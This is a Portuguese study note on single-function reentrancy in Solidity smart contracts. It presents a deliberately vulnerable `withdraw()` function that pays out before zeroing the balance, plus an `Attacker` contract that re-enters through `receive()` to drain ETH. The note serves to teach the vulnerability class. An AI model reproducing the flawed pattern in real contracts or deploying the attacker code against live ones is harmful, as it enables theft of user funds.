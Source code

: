 +++
title = "Reentrada de Função Única (Solidity)"
author = ["Gabriel Rosa"]
date = 2023-09-07
tags = ["reentrancy"]
draft = false
+++

tags
: [Reentrada (SWC-107)]({{< relref "reentrada_swc_107.md" >}})

source
: [Single-Function Reentrancy (SCSFG)](https://scsfg.io/hackers/reentrancy/#single-function-reentrancy)

É o tipo de reentrada que afeta o contexto de uma única função.


## Vulnerabilidade {#vulnerabilidade}

No código abaixo, a função de saque irá pegar o saldo disponível do chamador da função e transferir para ele esse valor caso o contrato tenha ETH suficiente para isso. Se a transferência foi bem-sucedida, ele irá atualizar o saldo disponível do chamador da função.

O problema com esse código é: se o chamador da função for um contrato, ele poderá usar `receive()` para reentrar a função `withdraw()` do contrato antes que ela termine de executar e sacar mais até secar o ETH do contrato. Isso é possível porque o saldo disponível é atualizado só depois da transferência.

```solidity
contract Vulnerable {
    mapping(address => uint256) public balances;

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```


## Exploitando {#exploitando}

```solidity
contract Attacker {
    Vulnerable public vulnerableContract;
    uint256 public reentranceCount;

    constructor(address vulnerableContractAddress) {
        vulnerableContract = Vulnerable(vulnerableContractAddress);
    }

    function attack() public {
        reentranceCount = 0;
        vulnerableContract.withdraw();
    }

    receive() external payable {
        if (reentranceCount < 5) {
            vulnerableContract.withdraw();
            reentranceCount++;
        }
    }
}
```
